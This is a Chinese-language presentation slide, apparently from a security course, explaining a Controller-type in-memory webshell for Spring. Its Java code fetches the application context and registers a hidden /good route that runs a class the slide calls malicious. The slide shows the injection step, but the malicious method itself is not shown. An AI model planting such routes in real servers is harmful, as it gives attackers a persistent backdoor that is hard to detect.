

# 基本概念-基于Spring内存马
Controller型内存：类比于tomcat中的StandardContext在Spring中也有相应的context对象为WebApplicationContext。
WebApplicationContext继承了BeanFactory，所以能用getBean直接获取RequestMappingHandlerMapping，进而注册路由，重点是如何获取WebApplicationContext。
核心代码如下：
//将DispatcherServlet的CONTEXT上下转换成WebApplicationContext 。
 WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
//从 Spring 上下文中获取 RequestMappingHandlerMapping 的实例。RequestMappingHandlerMapping 是一个 Spring MVC 的核心组件，用于处理请求映射的注册和查找。
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
//拿到text方法，该方法就是恶意类
        Method method2 = InjectToController.class.getMethod("test");
//设置了一个 URL "good"。这意味着该请求将会处理路径为 /good 的 HTTP 请求
        PatternsRequestCondition url = new PatternsRequestCondition("good");
//用于定义请求方法（如 GET、POST 等）。在这里没有设置具体的请求方法，表示该请求映射会适用于所有 HTTP 方法。
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        InjectToController injectToController = new InjectToController("aaa");
//将创建的 RequestMappingInfo、控制器实例 (injectToController) 及其方法 (method2) 注册到 mappingHandlerMapping 中。这样，当收到符合条件的 HTTP 请求（即请求路径为 /good）时，Spring MVC 会调用 injectToController 实例中的 test 方法。
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
39